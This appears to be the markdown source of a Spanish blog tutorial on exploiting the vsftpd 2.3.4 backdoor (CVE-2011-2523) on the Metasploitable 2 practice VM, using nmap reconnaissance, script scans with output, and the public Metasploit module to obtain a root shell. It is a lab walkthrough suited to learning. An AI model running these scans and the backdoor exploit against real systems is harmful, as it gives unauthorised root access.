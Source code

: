 ```yaml
---
layout: post
title: Metasploitable 2, Atacando el puerto 21 VSFTPD 2.3.4
category: Hacking
comments: true
description: Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP, que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 
tags:       
    - hacker
    - Metasploitable2
    - metasploit
---
```


Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP,que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Fase reconocimiento

Lo primero que necesitamos hacer es saber que puertos estan abiertos en la maquina de Metasploitable, esto lo podemos saber usando NMAP

{% highlight sql linenos %}

 nmap -sS -p- -T5 192.168.1.41

{% endhighlight %}

En los parametros de NMAP le he dicho que me diga todos puertos que tiene abiertos la maquina 192.168.1.41 y a maxima velocidad, si necesitas ayuda con NMAP puedes ver los articulos de este blog [sobre NMAP](http://www.h1rd.com/tags/nmap.html)

El resultado es el siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}


Con el resultado que nos da Nmap, ya sabemos que el puerto 21 esta abierto, asi que empezaremos con el. ahora para saber que programa hay funcionando como servidor ftp tenemos tres maneras:

* Manera manual, mediante telnet vemos que programa esta detras del puerto 21.

{% highlight sql linenos %}

telnet 192.168.1.42 21

{% endhighlight %}

El resultado sera el siguiente:

{% highlight sql linenos %}

Trying 192.168.1.41...
Connected to 192.168.1.41.
Escape character is '^]'.
220 (vsFTPd 2.3.4)

{% endhighlight %}

* Manera automatica, mediante el parametro sV de Nmap

{% highlight sql linenos %}

nmap -sT -sV -p 21 -T5 192.168.1.41

{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds


{% endhighlight %}


* La ultima opcion es usar los scripts de Nmap para poder saber lo maximo sobre este puerto

{% highlight sql linenos %}

nmap -sT --script ftp* -p 21 -T5 192.168.1.41


{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00031s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 1093 guesses in 182 seconds, average tps: 5.8
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  OSVDB:73573  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://osvdb.org/73573
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
MAC Address: 00:0C:29:D3:5F:CD (VMware)


{% endhighlight %}

De esta manera, Nmap nos dice no solo la version vsFTPd 2.3.4 sino que es explotable, y la vulnerabilidad CVE-2011-2523.


## Fase Explotación

Ahora a empezar lo divPantalla de inicio de Metasploitertido, para la fase de explotación usare Metasploit, ya que el uso para esta vulnerabilidad en particular es muy facil.

Desde metasploit buscamos todo lo relacionado con vsFTPd, a ver que hay:

{% highlight sql linenos %}

search vsftpd

{% endhighlight %}

El resultado de la busqueda nos devuelve que tenemos un exploit para la version 2.3.4 justamente la version que esta corriendo nuestro servidor FTP, asi que vamos a usarla:

{% highlight sql linenos %}

use exploit/unix/ftp/vsftpd_234_backdoor 

{% endhighlight %}

Ahora ya solo falta poner la ip de la maquina objetivo, mediante Set RHOST 192.168.1.41 y darle al comando run, y __TACHAN!!__  ya tenemos acceso a la maquina objetivo, con privilegios de root.

<figure>
<img alt="Acceso root a la maquina objetivo después de usar el exploit" class="img img-responsive" src="/resources/images/exploit-vsftpd.png"/>
<figcaption>
Acceso root a la maquina objetivo después de usar el exploit
</figcaption>
</figure>

## Curiosidad....

Lo primero que hice al ejecutar la maquina virtual de Mestasploitable 2, fue lanzar un scan de Nessus y me salieron ciertas vulnerabilidades, lo deje apartado, y hoy mientras escribia empece a recordar que el resultado del scan en ningun momento hablo de este backdoor en vsftpd, puede que sea un error mio de configuración o uso de Nessus o que directamente Nessus lo haya pasado por alto, en cualquier caso o Nessus no es solo install y click, o Tampoco se puede dejar a Nessus el peso de toda una auditoria. Simplemente me parece curioso una vulnerabilidad del 2011 donde se puede conseguir acceso root, no aparezca en el listado de vulnerabilidades criticas, altas o medias.

<figure>
<img alt="Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd" class="img img-responsive" src="/resources/images/nessus.png"/>
<figcaption>
Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd
</figcaption>
</figure>








